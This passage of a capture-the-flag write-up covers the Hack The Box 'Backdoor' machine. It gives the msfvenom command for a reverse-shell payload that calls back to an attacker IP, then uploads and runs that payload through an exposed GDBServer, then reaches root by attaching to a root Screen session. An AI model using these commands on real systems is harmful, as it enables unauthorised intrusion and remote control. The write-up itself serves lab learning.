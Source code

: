 We can clearly see that there's a GDBServer running on port 1337. This port is infamous for being associated with backdoors (which is kinda spoiled by this Box's name). We can also see that there's a GNU Screen session being executed as root every 1 second. This will be usefull later for priviledge escalation.

After a quick search, we find a [guide made by HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-remote-gdbserver) about getting a revshell through GDBServer (remember to setup your ncat)

```bash
[exyss@exyss Backdoor]$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.70 LPORT=1234 PrependFork=true -f elf -o revhshell.elf
[exyss@exyss Backdoor]$ chmod +x revshell.elf
[exyss@exyss Backdoor]$ gdb

(gdb) target extended-remote 10.10.11.125:1337
(gdb) remote put revhshell.elf revhshell.elf
(gdb) set remote exec-file /home/user/revhshell.elf
(gdb) run
```

The user flag is in the home directory.

----------

## Priviledge Escalation

As we noticed earlier, there's a GNU Screen session running as root. This part is really easy. We have to just run two commands to attach to that running session and become root.

```bash
user@Backdoor:/home/user$ export TERM=xterm
user@Backdoor:/home/user$ screen -x root/root

root@Backdoor:~$ whoami
whoami
root
```